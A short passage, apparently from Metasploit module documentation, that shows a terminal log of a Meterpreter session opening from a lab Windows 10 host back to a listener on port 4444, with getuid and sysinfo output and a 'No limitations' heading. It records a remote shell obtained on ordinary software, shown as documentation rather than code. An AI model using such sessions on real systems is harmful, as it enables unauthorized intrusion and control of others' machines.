 ```
[*] Sending stage (201798 bytes) to 172.16.199.131
[*] Meterpreter session 2 opened (172.16.199.1:4444 -> 172.16.199.131:51235) at 2024-07-11 16:14:11 -0700

meterpreter > getuid
Server username: DESKTOP-N3ORU31\msfuser
meterpreter > sysinfo
Computer        : DESKTOP-N3ORU31
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```
## Limitations
No limitations.
